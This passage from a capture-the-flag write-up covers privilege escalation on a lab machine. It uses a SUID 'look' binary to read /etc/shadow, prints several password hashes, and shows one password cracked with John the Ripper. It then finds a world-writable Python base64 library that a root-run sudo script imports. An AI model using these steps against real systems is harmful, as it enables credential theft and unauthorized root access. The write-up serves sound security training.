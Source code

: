 We can see that there is a look file with the SUID bit enabled which will allow us to look at any file. We can use this to get the /etc/shadow file to get hashes for any user.

```bash
root:$6$fHvHhNo5DWsYxgt0$.3upyGTbu9RjpoCkHfW.1F9mq5dxjwcqeZl0KnwEr0vXXzi7Tld2lAeYeIio/9BFPjUCyaBeLgVH1yK.5OR57.:18888:0:99999:7:::
<SNIP>
randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
tomcat:$6$XD2Bs.tL01.5OT2b$.uXUR3ysfujHGaz1YKj1l9XUOMhHcKDPXYLTexsWbDWqIO9ML40CQZPI04ebbYzVNBFmgv3Mpd3.8znPfrBNC1:18888:0:99999:7:::
<SNIP>
jaye:$6$Chqrqtd4U/B1J3gV$YjeAWKM.usyi/JxpfwYA6ybW/szqkiI1kerC4/JJNMpDUYKavQbnZeUh4WL/fB/4vrzX0LvKVWu60dq4SOQZB0:18887:0:99999:7:::
```

I then decided to crack the hashes for root and randy using john the ripper. After a long while I was able to get the password for randy.

```bash
john hash3.hash --show             
randy:07051986randy:1000:1000:randy,,,:/home/randy:/bin/bash

1 password hash cracked, 0 left
```

We now have access to the randy user

```bash
randy@corrosion:~$ sudo -l
[sudo] password for randy: 
Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) PASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
```

Using sudo -l we can see that randy can run the randombase64 script as root. Let’s take a look at what the script is doing.

```bash
import base64

message = input("Enter your string: ")
message_bytes = message.encode('ascii')
base64_bytes = base64.b64encode(message_bytes)
base64_message = base64_bytes.decode('ascii')

print(base64_message)
```

It seems to just be encoding a string to base64. We don’t seem to have write privileges on this file, although we can check to see if we have write privileges on the base64 library.

```bash
randy@corrosion:~$ ls -l /usr/lib/python3.8/base64.py 
-rwxrwxrwx 1 root root 20386 Sep 20  2021 /usr/lib/python3.8/base64.py
```
